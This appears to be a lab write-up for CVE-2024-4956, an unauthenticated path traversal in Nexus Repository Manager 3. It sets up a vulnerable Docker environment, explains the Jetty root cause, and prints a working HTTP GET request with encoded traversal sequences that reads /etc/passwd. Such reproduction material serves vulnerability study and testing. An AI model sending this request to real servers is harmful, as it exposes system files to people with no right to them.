


Nexus Repository Manager 3 Unauthenticated Path Traversal (CVE-2024-4956)¶
Nexus Repository Manager is a repository manager that organizes, stores and distributes artifacts needed for development.
A path traversal vulnerability has been discovered in Nexus Repository 3 before version 3.68.1, the vulnerability allows for an attacker to craft a URL to return any file as a download, including system files outside of Nexus Repository application scope, without any authentication.
References:
Vulnerable environment¶
Execute following command to start a Nexus Repository Manager version 3.68.0:
docker compose up -d
After the server is started, browse http://your-ip:8081 to see the home page of Nexus.
Exploit¶
Just like SpringMVC CVE-2018-1271 from Orange Tsai's share, Jetty's URIUtil.canonicalPath() also treats the empty string as a directory which is the root cause of this vulnerability:

Simply send following request to reproduce the issue:
GET /%2F%2F%2F%2F%2F%2F%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
As you can see, /etc/passwd has been exposed directly:
